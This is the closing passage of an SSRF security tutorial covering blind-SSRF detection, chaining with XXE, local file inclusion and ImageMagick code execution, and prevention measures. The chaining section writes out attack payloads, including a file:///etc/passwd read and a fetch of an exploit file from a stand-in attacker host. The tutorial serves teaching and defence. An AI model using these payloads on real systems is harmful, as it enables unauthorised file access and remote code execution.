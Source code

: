 ### Blind SSRF Detection

To detect blind SSRF (where you don't see the response):
```shell
# Set up a listener
nc -lnvp 8000

# Send a request that forces the vulnerable server to call back to your listener
```

### Chaining SSRF with Other Vulnerabilities

- **SSRF to XXE**: 
  
```xml
  <!DOCTYPE data [
  <!ENTITY xxe SYSTEM "http://internal-service/sensitive-data">
  ]>
  <data>&xxe;</data>
```

- **SSRF to LFI**:
```
http://vulnerable-site.com/fetch?url=file:///etc/passwd
```

- **SSRF to RCE via ImageMagick**:
```
http://vulnerable-site.com/fetch?url=https://attacker.com/exploit.mvg
```
Where exploit.mvg contains ImageMagick code execution vectors.

## SSRF Prevention Techniques

1. **Input Validation**: Implement strict input validation for all user-supplied URLs and IP addresses
2. **Use Allow Lists**: Only permit connections to specific, pre-approved domains or IP addresses
3. **Disable Unnecessary Protocols**: Block the use of dangerous URL schemes like `file://`, `gopher://`, and `dict://`
4. **Network Segmentation**: Use network-level controls to prevent the server from accessing internal resources
5. **Use a Dedicated User**: Run services that accept user input with minimal privileges
6. **HTTP Request Libraries**: Use libraries that don't follow redirects automatically or support non-HTTP protocols
7. **Response Handling**: Don't return raw responses from remotely fetched URLs to users
8. **Implement Network-Level Protections**: Use firewall rules to restrict outbound connections from web servers
9. **Use Access Control Lists**: Define which internal resources each application component can access

## Conclusion

SSRF vulnerabilities can lead to severe security issues, including unauthorized access to internal systems, data exposure, and in some cases remote code execution. The versatility of SSRF attacks, particularly when combined with various protocols and chained with other vulnerabilities, makes them especially dangerous in modern web applications.

Understanding SSRF attack vectors and defense mechanisms is crucial for both offensive security testing and defensive implementation. Always ensure proper permission and authorization when testing for SSRF vulnerabilities in any environment.

